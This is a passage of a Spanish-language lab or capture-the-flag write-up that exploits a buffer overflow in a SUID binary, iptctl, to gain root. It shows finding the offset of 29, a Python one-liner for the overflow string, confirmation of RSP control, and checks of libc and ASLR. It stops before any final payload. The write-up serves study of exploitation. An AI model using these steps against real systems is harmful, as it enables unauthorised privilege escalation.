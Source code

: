 **Acción:** ejecutamos `pattern offset A;AA)AAEAAaAA0AAFAAbA` para solicitar el resultado y vemos que es 29 el número máximo de caracteres permitidos.

```bash
A;AA)AAEAAaAA0AAFAAbA found at offset: 29
```

**Acción:** creamos una cadena con 29 (A), 8 (B) y 8 (C) `python -c 'print("A"*29 + "B"*8 + "C"*8)'`. El resultado lo introducimos en el programa para ver a donde va a parar cada conjunto de caracteres y confirmar que tenemos control del flujo del programa a bajo nivel. 

```bash
Entering interactive mode
Action(allow|restrict|show): allowAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC
IP address: 1.1.1.1
```

**Resultado:** confirmamos que podemos sobrescribir el `RSP`, controlando así el flujo del programa y teniendo una puerta de entrada a ganar acceso al sistema como root.

```bash
RSP: 0x7fffffffd998 ("BBBBBBBBCCCCCCCC\n")
```


---

##### Depuración

**Acción:** llegado a este punto vamos a realizar una serie de acciones para comprobar y explicar por qué es posible derivar este buffer over flow a una ejecución de comandos.

Desde la máquina objetivo:
```bash
/opt/iptctl$ ldd /opt/iptctl/iptctl                      
	linux-vdso.so.1 (0x00007ffef213f000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f32a94d5000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f32a96ab000)
```

```bash
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f32a94d5000)
```

```bash
cat /proc/sys/kernel/randomize_va_space # devuelve --> 2
```

En el código fuente observamos las siguientes líneas:
```c
 104   │     if(child_pid==0){
 105   │         setuid(0);
 106   │         execvp(args[0],args);
 107   │         exit(0);
 108   │     }
```

**Explicación:** confirmamos varios aspectos críticos para la explotación del Buffer Overflow:

1. **Librerías del sistema**: mediante `ldd` identificamos que el binario usa `libc.so.6` ubicada en `/lib/x86_64-linux-gnu/libc.so.6`. Esta librería contiene funciones del sistema que podemos aprovechar para la explotación (como `system`, `execve`, etc.).
2. **ASLR activado**: el comando `cat /proc/sys/kernel/randomize_va_space` devuelve `2`, lo que indica que ASLR (Address Space Layout Randomization) está completamente habilitado. Esto significa que las direcciones de memoria se aleatorizan en cada ejecución, dificultando la explotación tradicional.
3. **Ejecución privilegiada**: en el código fuente vemos que cuando `child_pid==0`, el programa ejecuta `setuid(0)` antes de `execvp`. Esto es crucial porque el binario tiene el bit SUID activado y llama a `setuid(0)` explícitamente. Cuando logremos controlar el flujo de ejecución mediante el Buffer Overflow, cualquier comando que ejecutemos heredará estos privilegios de root (UID 0).
